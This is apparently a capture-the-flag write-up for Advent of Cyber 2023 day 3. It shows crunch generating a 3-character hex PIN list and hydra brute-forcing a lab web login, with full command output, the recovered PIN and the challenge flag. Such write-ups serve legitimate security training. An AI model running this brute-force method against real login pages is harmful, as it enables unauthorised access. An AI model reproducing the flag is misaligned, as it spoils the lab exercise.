




# This is the Write Up for day 3 challenge of Advent of Cyber 2K23 CTF.

> Pratyush Prakhar (5#1NC#4N) - 12/03/2023

## Description

Everyone was shocked to discover that several critical systems were locked. But the chaos didn’t end there: the doors to the IT rooms and related network infrastructure were also locked! Adding to the mayhem, during the lockdown, the doors closed suddenly on Detective Frost-eau. As he tried to escape, his snow arm got caught, and he ended up losing it! He’s now determined to catch the perpetrator, no matter the cost.

It seems that whoever did this had one goal: to disrupt business operations and stop gifts from being delivered on time. Now, the team must resort to backup tapes to recover the systems. To their surprise, they find out they can’t unlock the IT room door! The password to access the control systems has been changed. The only solution is to hack back in to retrieve the backup tapes.

`This challenge is all about Password bruteforcing and low password complexity.`

## Solution

1. When we go to the given URL `http://<IP>:8000/`, we are greeted with an control system lock that apparently takes a *3 letter pin*. 



2. On examining the `page source`, we find the following
	1. The pin has to be of length 3 otherwise we will be denied access. There are some checks in place to make sure of it.
	2. The pin is posted as `pin` parameter to backend for verification.
	3. The endpoint to which it is posted - `/login.php`
	4. The total characters allowed for the pin code are `0123456789ABCDEF`. That is 16 if you can count.



3. As the secret complexity is fairly low (16^3), it would be okay to try a brute force attack. But how to generate all the possible combinations. There are many a methods, I am sure. Python collections come to mind or hashcat rules set. But I went with the one explained in the task. **crunch** is a simple wordlist generator based on size, characters set and rules. To create [possible pins list](hydra/possible_pins.txt), I can do the following.

```bash
$ crunch 3 3 0123456789ABCDEF                     
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096 

000
001
002
003
004
005
006
.......
FFF
$ crunch 3 3 0123456789ABCDEF -o possible_pins.txt
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096 

crunch: 100% completed generating output
```

4. We can now use this list and launch a `http-post-form` attack using *hydra*. This will allow us to brute force the endpoint for each possible combination and hopefully give us the correct pin to the door.
	1. *-s* : for the port
	2. *-v* : verbose to track errors

```bash
$ hydra -l '' -P possible_pins.txt 10.10.79.182 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000 -v -o pin.txt
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 4096 login tries (l:1/p:4096), ~256 tries per task
[DATA] attacking http-post-form://10.10.79.182:8000/login.php:pin=^PASS^:Access denied
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
...................................................................
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/control.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[8000][http-post-form] host: 10.10.79.182   password: 6F5
[STATUS] attack finished for 10.10.79.182 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-04 01:03:55
```

5. No controls for the max tries. Amazing. We get our [PIN](hydra/pin.txt).

6. Let's use this to get back our access to the control system. We can now unlock the door and finish our today's task. Phew... saved.


\



## Brownie Points

1. Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag?- **THM{pin-code-brute-force}**.
